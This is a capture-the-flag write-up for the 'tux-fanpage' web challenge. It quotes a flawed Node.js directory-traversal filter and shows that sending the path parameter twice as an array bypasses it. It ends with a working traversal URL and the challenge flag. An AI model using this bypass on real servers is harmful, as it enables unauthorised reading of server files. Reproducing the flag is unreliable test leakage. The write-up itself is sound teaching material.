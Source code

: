 # tux-fanpage (135 solves)

Source: [index.js](./index.js)

Based on a quick scan through the code, it appears we need to use a directory traversal attack. However, there are some functions in place as a filter.

```js
//Prevent directory traversal attack
function preventTraversal(dir) {
	if (dir.includes("../")) {
		let res = dir.replace("../", "");
		return preventTraversal(res);
	}

	//In case people want to test locally on windows
	if (dir.includes("..\\")) {
		let res = dir.replace("..\\", "");
		return preventTraversal(res);
	}
	return dir;
}

//Get absolute path from relative path
function prepare(dir) {
	return path.resolve("./public/" + dir);
}
```

One thing we notice is that we can pass an array in the query string through duplicate keys (eg. `?path=a&path=b`). This means that we can defeat the `preventTraversal` function.

Final Exploit:
https://tux-fanpage.2020.redpwnc.tf/page?path=a&path=/../../index.js

Flag: `flag{tr4v3rsal_Tim3}`
